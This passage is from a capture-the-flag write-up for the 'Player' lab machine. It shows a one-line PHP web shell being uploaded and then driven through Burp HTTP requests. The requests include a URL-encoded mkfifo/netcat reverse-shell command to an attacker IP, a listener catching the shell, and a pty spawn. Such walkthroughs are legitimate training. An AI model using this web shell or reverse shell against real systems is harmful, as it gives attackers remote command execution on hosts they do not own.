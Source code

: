 I upload PHP snippet to execute code and then get my reverse shell.

    <?php system($_REQUEST['cmd']); ?>

and then i inercept the request with Burp and execute commands with burp

    POST /home/yuns/cmd.php HTTP/1.1
    Host: dev.player.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: 97c737d7256edaf18c3552b469f00d9d=lgq8pjvfovjrf4jp64hs077mf2
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6

    cmd=id

    HTTP/1.1 200 OK
    Date: Fri, 03 Jan 2020 13:36:47 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.26
    Content-Length: 55
    Connection: close
    Content-Type: text/html

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Now lets get a reverse shell from that

    POST /home/yuns/cmd.php HTTP/1.1
    Host: dev.player.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: 97c737d7256edaf18c3552b469f00d9d=lgq8pjvfovjrf4jp64hs077mf2
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 88

    cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.15.38+9001+>/tmp/f

Spawn a TTY and then proceed to the Privilege escalation part

    root@kali:# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.145.
    Ncat: Connection from 10.10.10.145:9582.
    $ python -c 'import pty;pty.spawn("/bin/bash")'

